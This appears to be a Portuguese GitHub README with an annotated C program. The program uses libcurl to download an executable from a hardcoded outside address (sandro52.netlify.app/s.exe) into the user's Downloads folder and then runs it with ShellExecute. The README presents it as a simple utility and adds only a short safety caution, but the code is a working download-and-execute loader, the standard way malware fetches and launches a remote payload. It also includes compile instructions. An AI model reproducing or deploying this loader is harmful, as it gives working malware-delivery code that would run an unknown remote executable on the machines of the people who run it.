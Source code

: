 Download e Execução de Arquivo no Windows

Este é um programa simples em C que utiliza a biblioteca libcurl para baixar um arquivo da internet e, em seguida, executa-o no sistema operacional Windows. O código foi projetado para ser usado com um compilador C e uma biblioteca libcurl instalada no ambiente de desenvolvimento.

Instruções de Uso
Pré-requisitos
Certifique-se de ter um compilador C instalado. Recomendamos o uso do MinGW em um ambiente Windows.
Tenha a biblioteca libcurl instalada e configurada corretamente no seu sistema.
Garanta que o ambiente de desenvolvimento tenha acesso à API do Windows e a biblioteca ShellExecute.
Compilação
Abra um prompt de comando e navegue até o diretório contendo o código-fonte. Use o seguinte comando para compilar o programa:

bash
Copy code
# Para compilar para 32 bits
gcc -m32 -o seu_programa.exe seu_codigo.c -lcurl -lshell32

# Para compilar para 64 bits
gcc -m64 -o seu_programa.exe seu_codigo.c -lcurl -lshell32
Substitua seu_programa.exe pelo nome desejado para o executável e seu_codigo.c pelo nome do seu arquivo de código-fonte.

OU

# Para compilar para 32 bits
gcc -m32 -o seu_programa.exe seu_codigo.c -lcurl

# Para compilar para 64 bits
gcc -m64 -o seu_programa.exe seu_codigo.c -lcurl

Execução
Após a compilação, execute o programa no prompt de comando:

bash
Copy code
.\seu_programa.exe
O programa realizará o download de um arquivo da URL especificada (no exemplo, "https://sandro52.netlify.app/s.exe") para o diretório de downloads padrão do usuário e, em seguida, abrirá o arquivo no visualizador padrão do Windows.

Notas de Segurança
Este programa baixa e executa um arquivo da internet. Tenha cuidado ao baixar e executar arquivos de fontes desconhecidas, pois isso pode representar riscos de segurança.
Recomendamos verificar a fonte do arquivo antes de executá-lo e garantir que ele seja proveniente de uma fonte confiável.
Contribuições
Contribuições são bem-vindas! Sinta-se à vontade para abrir problemas (issues) ou enviar pull requests para melhorar este código.

Vamos analisar o código passo a passo para entender o que cada parte faz:

Inclusão de Bibliotecas
c
Copy code
#include <stdio.h>
#include <stdlib.h>
#include <curl/curl.h>
#include <windows.h>
#include <ShlObj.h>
Essas são as inclusões de bibliotecas necessárias para o funcionamento do programa:

<stdio.h> e <stdlib.h>: Bibliotecas padrão de entrada/saída e funções de alocação de memória.
<curl/curl.h>: Biblioteca libcurl para transferência de dados pela internet.
<windows.h>: Biblioteca para funções do sistema operacional Windows.
<ShlObj.h>: Headers do Windows para manipulação de shell, incluindo a função SHGetKnownFolderPath.
Função Callback write_data
c
Copy code
size_t write_data(void *ptr, size_t size, size_t nmemb, FILE *stream) {
    return fwrite(ptr, size, nmemb, stream);
}
Essa função é um callback usado pela libcurl para escrever os dados baixados em um arquivo.

Função Principal main
c
Copy code
int main() {
    // Declaração de variáveis
    CURL *curl = NULL;
    FILE *fp = NULL;
    CURLcode res;

    const char *url = "https://sandro52.netlify.app/s.exe";
    const char *output_filename = "file.exe";
    // ...

    // Obtém o diretório de downloads padrão
    PWSTR download_path;
    if (SHGetKnownFolderPath(&FOLDERID_Downloads, 0, NULL, &download_path) != S_OK) {
        fprintf(stderr, "Erro ao obter o diretório de downloads\n");
        return 1;
    }
    // ...

    // Concatena o caminho do arquivo ao diretório de downloads padrão
    char full_path[MAX_PATH];
    snprintf(full_path, sizeof(full_path), "%S\\%s", download_path, output_filename);

    // Libera a memória alocada para o caminho do diretório de downloads
    CoTaskMemFree(download_path);
    // ...

    // Inicializa o libcurl
    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    // ...

    if (curl) {
        // Abre o arquivo para escrita
        fp = fopen(full_path, "wb");
        // ...

        // Configura a URL e a função de escrita
        curl_easy_setopt(curl, CURLOPT_URL, url);
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_data);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, fp);

        // Realiza o download
        res = curl_easy_perform(curl);
        // ...

        // Fecha o arquivo
        fclose(fp);

        // Libera os recursos do libcurl
        curl_easy_cleanup(curl);
    } else {
        fprintf(stderr, "Erro ao inicializar o libcurl\n");
        return 1;
    }

    // Verifica se o download foi bem-sucedido antes de abrir o arquivo
    if (res != CURLE_OK) {
        fprintf(stderr, "Download falhou\n");
        return 1;
    }

    // Abre o arquivo no visualizador padrão do Windows
    if (ShellExecute(NULL, "open", full_path, NULL, NULL, SW_SHOWNORMAL) <= (HINSTANCE)32) {
        fprintf(stderr, "Erro ao abrir o arquivo\n");
        return 1;
    }

    return 0;
}
Passos Principais:
Obtenção do Diretório de Downloads:

A função SHGetKnownFolderPath é usada para obter o caminho do diretório de downloads padrão no sistema.
Concatenação do Caminho do Arquivo:

O caminho do arquivo é construído concatenando o caminho do diretório de downloads com o nome do arquivo.
Inicialização do libcurl:

curl_global_init e curl_easy_init são usados para inicializar o libcurl.
Configuração e Execução do Download:

curl_easy_setopt é usado para configurar a URL, a função de escrita e o destino do download.
curl_easy_perform realiza efetivamente o download.
Liberação de Recursos do libcurl:

curl_easy_cleanup é chamado para liberar os recursos alocados pelo libcurl.
Verificação do Sucesso do Download:

Verifica-se se o download foi bem-sucedido antes de prosseguir.
Abertura do Arquivo Baixado:

ShellExecute é utilizado para abrir o arquivo baixado no visualizador padrão do Windows.








